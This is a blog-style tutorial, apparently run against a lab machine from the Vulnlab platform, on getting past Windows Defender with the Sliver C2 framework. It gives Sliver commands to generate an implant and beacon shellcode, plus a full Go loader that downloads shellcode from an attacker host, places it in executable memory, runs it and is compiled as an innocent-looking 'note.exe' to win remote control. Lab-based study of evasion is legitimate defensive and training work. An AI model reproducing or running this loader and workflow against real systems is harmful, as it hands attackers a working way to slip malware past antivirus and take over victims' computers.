








AV Bypass using Sliver C2 Shellcode
For this demo i will be using a Windows AD machine called Delegate from Vulnlab Platform! Huge shout out to xct for the platform!!
so lets start
i have an initial access with a low priv user N.Thompson
lets enumerate if AV(Windows Defender) is enabled on the machine or not
❯ nxc smb delegate.vl -u 'N.Thompson' -p 'KALEB_2341' -M enum_av
okay so we can see Anti Virus(AV) is running , another way of finding out the status of AV in powershell is
Get-Service WinDefend
alright now we will generate implant (malware exe) using Sliver C2 & lets see if AV is detecting it or not
sliver> generate --mtls 10.8.4.206 --os windows --arch amd64 --format exe --skip-symbols
now upload the malware exe into the windows machine running AV & try to execute it

Alright AV caught our malware & deleted it!! Hard luck !! now what ?
how do we bypass the AV ?
okay so if exe is getting blocked , we can try custom ShellCode execution in memory of the windows machine , without touching the disk
let’s generate Shellcode using Sliver C2
sliver> generate beacon -b http://10.8.4.206:8080 -S 5 -f shellcode
as we set the shellcode retun back as 8080 port , we need to start a HTTP listener in sliver on port 8080
http -l 8080

so as we can see our custom Shellcode generated as CHARMING_MANIC.bin
now we have to load this Shellcode into the memory of the Windows machine & execute it which should give Sliver C2 a Beacon(Kinda like a reverse shell)
so in order to load the shellcode into the windows machine memory , we need something called Loader ( the technique is called Side Loading Attack)
so i have written a custom shellcode loader in Golang
which will download my shellcode bin file & execute in memory
loader.go
package main
import (
"io/ioutil"
"net/http"
"syscall"
"unsafe"
)
const (
MEM_COMMIT = 0x1000
MEM_RESERVE = 0x2000
PAGE_EXECUTE_READWRITE = 0x40
)
var (
kernel32 = syscall.MustLoadDLL("kernel32.dll")
ntdll = syscall.MustLoadDLL("ntdll.dll")
VirtualAlloc = kernel32.MustFindProc("VirtualAlloc")
RtlMoveMemory = ntdll.MustFindProc("RtlMoveMemory")
)
func main() {
response, _ := http.Get("http://10.8.4.206/CHARMING_MANIAC.bin")
defer response.Body.Close()
shellcode, _ := ioutil.ReadAll(response.Body)
addr, _, _ := VirtualAlloc.Call(0, uintptr(len(shellcode)), MEM_COMMIT|MEM_RESERVE, PAGE_EXECUTE_READWRITE)
_, _, _ = RtlMoveMemory.Call(addr, (uintptr)(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)))
syscall.Syscall(addr, 0, 0, 0, 0)
}so now i have to compile this loader as an exe (it will be very small in size)
❯ GOOS=windows GOARCH=amd64 go build -o note.exe main.go
we can see we have successfully compiled our loader as note.exe , lets upload it to the victim’s windows machine running AV & try to execute

as we can see we successfully fooled AV to run our malicious shellcode into memory leading to Sliver C2 beacon connection which means now we have fully remote control over that windows machine from Sliver C2 itself!!
I hope you learnt something new 🎈